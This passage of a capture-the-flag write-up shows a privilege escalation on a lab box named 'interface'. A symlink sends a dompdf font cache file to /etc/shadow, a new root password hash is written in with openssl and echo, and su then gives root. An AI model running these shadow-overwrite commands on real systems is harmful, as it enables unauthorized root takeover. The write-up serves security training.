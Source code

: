

And now, any auth or user-related operations on the box are dorked. I'll
need a reset.

#### shadow

The option that works is `/etc/shadow`. I'll update the link to point to
it:



    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ln -sf /etc/shadow dompdf_font_family_cache.php



After a few minutes, it's overwritten with the PHP, and the ownership
has changed:



    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ls -l /etc/shadow
    -rw-r----- 1 www-data www-data 2863 Feb 13 21:15 /etc/shadow



I'll generate a password hash using `openssl`:



    www-data@interface:~$ openssl passwd -6 0xdf0xdf
    $6$b3swpjX7i9uUl2Tt$QgeVADzJcbbszwzBgrdFb2uI6EA8gabZvhPXbIrhWhfVljCqSsmmsalI97DfI3SYUX9SSqOjYo9AvVZZAPwaK0



Now I'll write an entry in the shadow to match the format described
[here](https://linuxize.com/post/etc-shadow-file/):



    www-data@interface:~$ echo 'root:$6$b3swpjX7i9uUl2Tt$QgeVADzJcbbszwzBgrdFb2uI6EA8gabZvhPXbIrhWhfVljCqSsmmsalI97DfI3SYUX9SSqOjYo9AvVZZAPwaK0:17736:0:99999:7:::' > /etc/shadow



It is important to use single quotes on that `echo`, or the `$` will be
evaluated as variables. With this in place, I can `su` as root using the
password "0xdf0xdf":



    www-data@interface:~$ su -
    Password: 
    root@interface:~#



### Script Analysis

There's a cleanup script running as root:



    root@interface:~# crontab -l
    ...[snip]...
    # m h  dom mon dow   command
    */2 * * * * /usr/local/sbin/cleancache.sh
    */5 * * * * /root/clean.sh
